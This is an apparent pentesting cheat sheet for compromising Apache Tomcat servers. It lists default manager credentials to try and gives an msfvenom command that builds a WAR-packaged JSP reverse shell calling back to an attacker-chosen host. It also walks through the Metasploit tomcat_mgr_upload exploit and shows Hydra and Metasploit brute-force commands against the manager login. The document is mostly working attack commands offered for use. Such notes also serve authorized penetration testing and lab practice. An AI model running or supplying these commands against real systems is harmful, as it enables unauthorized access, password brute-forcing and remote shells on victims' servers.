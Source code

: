 # Tomcat

## Exploitation Checks

* Open Tomcat Manager
  * Check to see if any of the default credentials will work to log in. Common ones:
    * `admin:admin`
    * `tomcat:tomcat`
    * `admin:<NOTHING>`
    * `admin:s3cr3t`
    * `tomcat:s3cr3t`
    * `admin:tomcat`
  * If so, we may be able to upload a war file to get a reverse shell.
  * After upload and deploying the war file, we can start a `netcat` listener, then select the war file from the Application Path column in Tomcat.
* Open Tomcat Administration
  * Check to see if any of the default credentials will work to log in.
* Check **/manager/status** path to look for version details and then known exploits especially if you cannot access **/manager/html**.

### MSFvenom Reverse Shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shellw.war
```

### Metasploit

```bash
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```

## Brute Force

### Hydra

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

### Metasploit

```bash
msf> use auxiliary/scanner/http/tomcat_mgr_login
```

